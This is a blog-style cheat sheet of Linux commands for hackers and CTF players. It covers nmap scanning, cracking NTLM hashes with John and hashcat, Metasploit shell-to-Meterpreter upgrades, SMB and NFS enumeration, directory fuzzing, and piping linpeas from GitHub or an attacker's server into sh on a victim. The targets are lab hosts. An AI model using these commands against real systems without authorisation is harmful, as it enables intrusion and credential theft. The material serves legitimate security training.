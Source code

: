 ```yaml
---
title: Linux Commands for Hacking and Security
date: 2023-08-08
author: Abhinav Kumar
image: {
  src: "/images/bash.jpeg",
  alt: "Linux Commands for Everyday Hacking and Security",
}
description: Linux commands and shortcuts very often used by Hackers, Security professionals, CTF Players.
draft: false
category: Hacking 101
---
```


Linux commands that are often used by hackers, security professional and CTF players. We will avoid any payloads or oneliner exploits ( will cover in different page sometime).

### Add Target to hosts file

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo '10.10.196.20 blue.thm' | sudo tee -a /etc/hosts
[sudo] password for abhinav: 
10.10.196.20 blue.thm
```

### Nmap

```bash
#for TCP Scan
sudo nmap -sC -sV -p- -T5 -Pn targethost

#for UDP Scan
sudo nmap -sU -sV -p- -T5 -Pn targethost

# Store scan results for ports separated by comma.
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ ports=$(nmap -p- --min-rate=1000 -T4 cronos.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')

# Check which ports are found
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo $ports
22,53,80,9227,19041,30100

# Pass the information in -p argument as $ports
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ sudo nmap -sC -sV -A -O -T5 -p$ports cronos.htb
```





Start Metasploit with database



Cracking hash with John

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ john hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt 
```

Cracking hash with hashcat

Windows NTLM Hash
```bash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt.gz
```

Metasploit Shell Upgrade to Meterpreter
sessions -u 3
sessions -u -1
use post/multi/manage/shell_to_meterpreter
run session=-1


## Extract Files

Gz Files

gunzip archive.gz

```bash
tar –xvzf archive.tar.gz
```

## SSH Connection 

ssh username@host -oHostKeyAlgorithms=+ssh-dss


## Text Filter

grep -i ]- inlcude
grep -v ]- exclude

## SMB Enumeration

nmap

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.232.56
```

```bash
smbclient //IP/directory
```

mount NFS

make directory locally and mount it
```bash
mkdir /mnt/sampleDIR
sudo mount IP:/folder /mnt/sampleDIR
```
## netcat

get version via banner
nc IP port

## Linpeas

# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

### Python Simple HTTP Server


```bash
python3 -m http.server 7777
curl 10.10.10.10/linpeas.sh | sh #Victim
```

### Wordpress CMS Vulnerabilty Scanning

```bash
wpscan --url https://brainfuck.htb --disable-tls-checks
```

## Directory Enumeration

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cronos.htb/FUZZ -mc 200,403 -c -t 400


                                                                                                                                                                         
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ gobuster dir -u  http://cronos.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --threads 200 --quiet

```